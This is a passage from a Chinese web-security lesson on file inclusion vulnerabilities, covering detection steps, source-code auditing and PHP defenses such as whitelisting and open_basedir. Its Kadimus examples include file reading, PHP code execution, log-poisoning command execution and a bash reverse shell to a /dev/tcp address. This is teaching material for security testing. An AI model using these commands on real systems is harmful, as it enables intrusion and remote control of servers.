 </li>
</ul>
<p data-nodeid="16727">（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。</p>
<p data-nodeid="16728">（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。</p>
<p data-nodeid="16729">（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。</p>
<ul data-nodeid="16730">
<li data-nodeid="16731">
<p data-nodeid="16732"><strong data-nodeid="16922">本地文件包含漏洞检测</strong></p>
</li>
</ul>
<p data-nodeid="16733">（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。</p>
<p data-nodeid="16734">（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。</p>
<p data-nodeid="16735">（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。</p>
<p data-nodeid="16736">上述检测思路既适用于手工测试，也适用于日常的自动化扫描。</p>
<h4 data-nodeid="16737">2.静态检测思路</h4>
<p data-nodeid="16738">从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。</p>
<p data-nodeid="16739"><img src="https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png" alt="图片9.png" data-nodeid="16931"></p>
<h4 data-nodeid="16740">3.自动化检测与利用工具：Kadimus</h4>
<p data-nodeid="16741">提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 <a href="https://github.com/P0cL4bs/Kadimus/" data-nodeid="16936">Kadimus</a>，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。</p>
<p data-nodeid="16742">介绍几个常用命令：</p>
<pre class="lang-shell" data-nodeid="16743"><code data-language="shell"><span class="hljs-meta">#</span><span class="bash"> 检测参数是否存在文件包含漏洞</span>
./kadimus -u localhost/?pg=contact -A my_user_agent
<span class="hljs-meta">#</span><span class="bash"> 读取文件内容</span>
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
<span class="hljs-meta">#</span><span class="bash"> 执行PHP代码</span>
./kadimus -u localhost/?pg=php://input%00 -C '&lt;?php echo "pwned"; ?&gt;' -T input
<span class="hljs-meta">#</span><span class="bash"> 执行系统命令</span>
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
<span class="hljs-meta">#</span><span class="bash"> 反连shell</span>
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i &gt;&amp; /dev/tcp/172.17.0.1/1234 0&gt;&amp;1"' --retry-times 0
</code></pre>
<h3 data-nodeid="16744">漏洞防御</h3>
<h4 data-nodeid="16745">1.白名单限制</h4>
<p data-nodeid="16746">如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：</p>
<pre class="lang-php" data-nodeid="16747"><code data-language="php"><span class="hljs-keyword">if</span>(&nbsp;$file&nbsp;!=&nbsp;<span class="hljs-string">"include.php"</span>&nbsp;&amp;&amp;&nbsp;$file&nbsp;!=&nbsp;<span class="hljs-string">"file1.php"</span>&nbsp;&amp;&amp;&nbsp;$file&nbsp;!=&nbsp;<span class="hljs-string">"file2.php"</span>&nbsp;&amp;&amp;&nbsp;$file&nbsp;!=&nbsp;<span class="hljs-string">"file3.php"</span>&nbsp;)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-comment">//&nbsp;This&nbsp;isn't&nbsp;the&nbsp;page&nbsp;we&nbsp;want!</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">echo</span>&nbsp;<span class="hljs-string">"ERROR:&nbsp;File&nbsp;not&nbsp;found!"</span>;
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">exit</span>;
}
</code></pre>
<h4 data-nodeid="16748">2.设置 open_basedir</h4>
<p data-nodeid="16749">在 php.ini 中设置 open_basedir，可允许将 PHP 打开的文件限制在指定的目录中，可有效防止跨目录访问一些系统敏感文件。除了 php.ini 设置方法外，还可在代码中设置：</p>
<pre class="lang-php" data-nodeid="16750"><code data-language="php">ini_set(<span class="hljs-string">'open_basedir'</span>, <span class="hljs-string">'指定目录'</span>);
</code></pre>
<h4 data-nodeid="16751">3.关闭 allow_url_include</h4>
<p data-nodeid="16752">在 php.ini 中设置 allow_url_include＝Off（默认关闭），避免远程文件包含，同时减少一些伪协议的攻击，提高漏洞利用成本。</p>
<h3 data-nodeid="16753">小结</h3>
<p data-nodeid="16754">本节课主要介绍了远程和本地两种类型的文件包含漏洞，教你如何挖掘与利用漏洞，以及如何防御。</p>
